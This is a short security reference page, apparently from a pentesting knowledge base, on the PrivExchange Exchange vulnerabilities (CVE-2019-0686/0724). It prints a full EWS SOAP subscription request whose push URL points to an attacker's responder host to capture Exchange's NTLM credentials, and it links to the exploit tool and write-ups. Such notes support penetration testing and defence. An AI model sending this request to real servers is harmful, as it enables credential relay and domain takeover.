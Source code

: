 ```yaml
---
title : "CVE-2019-0686"
# pre : ' '
description : "Abusing Exchange: One API call away from Domain Admin. (CVE-2019-0686 & CVE-2019-0724)"
date : 2021-02-03T13:28:29+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## PrivExchange - Abusing Exchange: One API call away from Domain Admin (CVE-2019-0686 & CVE-2019-0724)

[Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
[Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)

## Examples

### SOAP request creating subscription to mailbox

```plain
POST /ews HTTP/1.1
Host: exchange.example.com
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 934
Connection: close
Referer: https://exchange.example.com/ews
User-Agent: iPhone/11.1

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages">
    <soap:Header>
        <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
        <m:Subscribe>
            <m:PushSubscriptionRequest SubscribeToAllFolders="true">
                <t:EventTypes>
                    <t:EventType>NewMailEvent</t:EventType>
                    <t:EventType>ModifiedEvent</t:EventType>
                    <t:EventType>MovedEvent</t:EventType>
                </t:EventTypes>
                <t:StatusFrequency>1</t:StatusFrequency>
                <t:URL>http://<responder-IP-adres/gibcredsplz_2013_4/</t:URL>
            </m:PushSubscriptionRequest>
        </m:Subscribe>
    </soap:Body>
</soap:Envelope>
```

## URL List

* [Github.com - DirkjanM - PrivExchange](https://github.com/dirkjanm/PrivExchange)
* [Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [Chryzsh.github.io - Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)
